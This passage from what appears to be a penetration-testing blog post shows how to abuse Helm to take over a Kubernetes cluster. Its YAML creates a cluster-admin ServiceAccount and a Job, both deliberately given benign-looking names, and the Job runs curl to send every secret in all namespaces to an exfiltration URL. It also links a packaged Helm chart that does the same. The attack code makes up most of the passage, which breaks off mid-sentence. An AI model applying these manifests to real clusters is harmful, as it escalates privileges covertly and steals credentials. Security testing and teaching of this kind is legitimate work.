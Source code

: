 The other option we have though, is to use Helm to *create* a new, highly privileged service account, and then use that to extract *all the other* Kubnernetes secrets. To accomplish that, we create a new ServiceAccount and ClusterRoleBinding then attach it to a new job that extracts all Kubernetes secrets via the API. The YAML definitions to do that would look something like this:

```yaml
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: tiller-deployer #benign looking service account
  namespace: kube-system
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: tiller-deployer
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin # full cluster-admin privileges
subjects:
  - kind: ServiceAccount
    name: tiller-deployer
    namespace: kube-system
---
apiVersion: batch/v1
kind: Job
metadata:
  name: tiller-deployer # something benign looking
  namespace: kube-system
spec:
  template:
    spec:
      serviceAccountName: tiller-deployer # newly created service account
      containers:
        - name: tiller-deployer # something benign looking
          image: rflathers/kubectl:bash # alpine+curl+kubectl+bash
          command:
            - "/bin/bash"
            - "-c"
            - "curl --data-binary @<(kubectl get secrets --all-namespaces -o json) $(EXFIL_URL)"
          env:
            - name: EXFIL_URL
              value: "https://<listening_url>" # replace URL here
      restartPolicy: Never
```

In the same vein as above, I packaged the above resources into a Helm chart:

https://github.com/ropnop/pentest_charts/tree/master/charts/exfil_secrets

This Chart also takes the same values:
